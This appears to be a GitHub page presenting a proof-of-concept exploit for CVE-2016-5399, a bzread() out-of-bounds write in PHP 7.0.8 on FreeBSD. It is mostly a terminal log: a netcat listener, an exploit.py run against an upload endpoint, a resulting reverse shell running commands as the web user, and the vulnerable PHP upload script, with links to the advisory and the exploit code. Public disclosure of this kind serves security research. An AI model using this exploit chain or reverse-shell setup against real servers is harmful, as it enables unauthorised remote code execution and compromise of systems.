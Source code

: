 ```yaml
---
date: 2016-07-21
---
```

# CVE-2016-5399: php 7.0.8: out-of-bounds write in bzread()

PoC for CVE-2016-5399 targeting FreeBSD 10.3 x86-64 running php-fpm
behind nginx.

```sh
$ nc -v -l 1.2.3.4 5555 &
Listening on [1.2.3.4] (family 0, port 5555)

$ python exploit.py --ip 1.2.3.4 --port 5555 http://target/upload.php
[*] sending archive to http://target/upload.php (0)

Connection from [target] port 5555 [tcp/*] accepted (family 2, sport 49479)
$ fg
id
uid=80(www) gid=80(www) groups=80(www)

uname -imrsU
FreeBSD 10.3-RELEASE-p4 amd64 GENERIC 1003000

/usr/sbin/pkg query -g "=> %n-%v" php*
=> php70-7.0.8
=> php70-bz2-7.0.8

cat upload.php
<?php
$fp = bzopen($_FILES["file"]["tmp_name"], "r");
if ($fp === FALSE) {
    exit("ERROR: bzopen()");
}

$data = "";
while (!feof($fp)) {
    $res = bzread($fp);
    if ($res === FALSE) {
        exit("ERROR: bzread()");
    }
    $data .= $res;
}
bzclose($fp);
?>
```

- [Advisory](/advisories/011-php)
- [Code](https://github.com/dyntopia/exploits/tree/master/CVE-2016-5399)
